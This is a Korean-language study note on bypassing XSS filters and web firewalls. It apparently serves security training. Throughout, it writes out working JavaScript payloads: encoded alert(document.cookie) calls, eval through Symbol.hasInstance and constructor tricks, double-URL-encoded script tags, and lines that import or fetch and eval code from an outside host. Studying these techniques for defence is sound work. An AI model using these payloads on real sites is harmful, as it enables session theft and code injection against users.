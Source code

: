 # 자바스크립트 함수 및 키워드 필터링
Unicode excape sequnece를 통한 우회
```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

Computed member access를 이용한 우회
```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

템플릿 리터럴 사용
```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```

RegExp 객체 사용
```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

fromCharCode 함수 사용
```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

내장 함수 및 객체 문자를 이용
```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```

진수 변환을 이용한 모습
```javascript
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

javascript 스키마를 이용한 우회
```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

hasInstance를 이용한 우회
```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

innerHTML을 이용한 우회 예시
```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

## 실습문제
```javascript
function XSSFilter(data){
  if(/alert|window|document/.test(data)){
    return false;
  }
  return true;
}
/*
\u0061lert(\u0064\u006F\u0063\u0075\u006D\u0065\u006E\u0074.cookie);
*/

function XSSFilter(data){
  if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
    return false;
  }
  return true;
}
/*
decodeURI, atob와 constructor 속성을 함께 사용하면 원하는 임의의 코드를 실행
// %63%6F%6E%73%74%72%75%63%74%6F%72 -> constructor
// %61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29 -> alert(document.cookie)
Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](
      decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
*/

function XSSFilter(data){
  if(/[()"'`]/.test(data)){
    return false;
  }
  return true;
}
/*
/alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};
location=/javascript:/.source + /alert/.source + [URL+0][0][12] + /document.cookie/.source + [URL+0][0][13];
*/
```


# 디코딩 전 필터링
웹 방화벽 검증 이후 다시 디코딩할 경우 공격자는 더블 URL 인코딩으로 웹 방화벽 검증 우회
```
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```

# 길이 제한
location.hash를 이용한 공격 방식
```
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```

외부 자원을 이용한 공격 방식
```javascript
import("http://malice.dreamhack.io");

var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);

fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```
